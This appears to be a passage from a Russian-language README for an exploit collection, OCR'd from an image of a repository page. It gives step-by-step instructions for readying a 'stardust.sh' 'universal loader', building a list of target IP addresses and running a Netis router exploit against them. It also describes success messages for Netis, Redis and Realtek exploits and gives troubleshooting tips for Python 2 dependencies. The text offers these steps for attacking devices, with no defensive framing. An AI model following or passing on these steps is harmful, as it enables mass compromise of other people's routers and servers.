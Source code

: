 ## 🚀 Быстрый Старт

### Пошаговый запуск (пример с Netis):

1. **Подготовка окружения:**
   ```bash
   # Переходим в директорию проекта
   cd /path/to/exploit-collection
   
   # Устанавливаем права на универсальный загрузчик
   chmod +x stardust.sh
   ```

2. **Создание списка целей:**
   ```bash
   # Создаем файл со списком IP адресов (по одному на строку)
   cat > targets.lst << EOF
   192.168.1.1
   10.0.0.1
   172.16.1.100
   EOF
   ```

3. **Запуск эксплойта:**
   ```bash
   python2 netis/netis.py targets.lst
   ```

4. **Мониторинг результатов:**
   ```bash
   # Смотрим вывод в реальном времени
   # Успешные подключения будут помечены в зависимости от эксплойта:
   # Netis: "Attempting: <IP>" при попытке подключения
   # Redis: "[+] Good IP <IP>" для рабочих серверов  
   # Realtek: "[REALTEK] Loading <IP>" при отправке пейлоада
   ```

## 🐛 Траблшутинг

### Частые проблемы и решения:

#### ❌ `python: command not found`
```bash
# Решение: Используйте python2 вместо python
python2 netis/netis.py targets.lst

# Или создайте симлинк
sudo ln -s /usr/bin/python2.7 /usr/bin/python
```

#### ❌ `ModuleNotFoundError: No module named 'requests'`
```bash
# Решение: Установите модуль для Python 2
pip2 install requests paramiko
```
